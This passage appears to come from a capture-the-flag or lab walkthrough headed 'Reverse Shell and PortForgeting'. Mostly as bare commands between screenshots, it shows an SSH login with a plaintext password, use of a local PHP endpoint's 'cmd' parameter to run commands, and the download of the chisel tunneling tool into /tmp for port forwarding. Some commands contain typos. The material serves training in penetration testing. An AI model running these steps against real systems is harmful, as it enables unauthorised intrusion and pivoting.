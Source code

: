 ```
ssh jehad@192.168.153.131
yes
fool

```

---

# Reverse Shell and PortForgeting


![](Captura%20de%20pantalla%20-2023-07-04%2014-29-14.png)

```
pwd
netstat -nat
```

![](Captura%20de%20pantalla%20-2023-07-04%2014-31-38.png)
```
ps -faux ! grep 9999
```
![](Captura%20de%20pantalla%20-2023-07-04%2014-32-25.png)
```
cd /opl/web
ls
cat index.php
```

![](Captura%20de%20pantalla%20-2023-07-04%2014-38-03.png)
```
curl "http://localhost:9999/index.php"?cmd=whoami" -X GET; echo
```
![](Captura%20de%20pantalla%20-2023-07-04%2014-37-11.png)

```
curl "http://localhost:9999/index.php"?cmd=id" -X GET; echo
```

![](Captura%20de%20pantalla%20-2023-07-04%2014-38-33.png)

![](Captura%20de%20pantalla%20-2023-07-05%2014-08-40.png)

```
mv chisel_1.8.1_linux_amd64 chisel
gunzip chisel
chmod +x chisel
file chisel
```

![](Captura%20de%20pantalla%20-2023-07-05%2014-12-23.png)
```
sudo python3 -m http.server 80
cd /tmp/
wget http://192.168.153.131/chisel
```
![](Captura%20de%20pantalla%20-2023-07-05%2014-15-56.png)
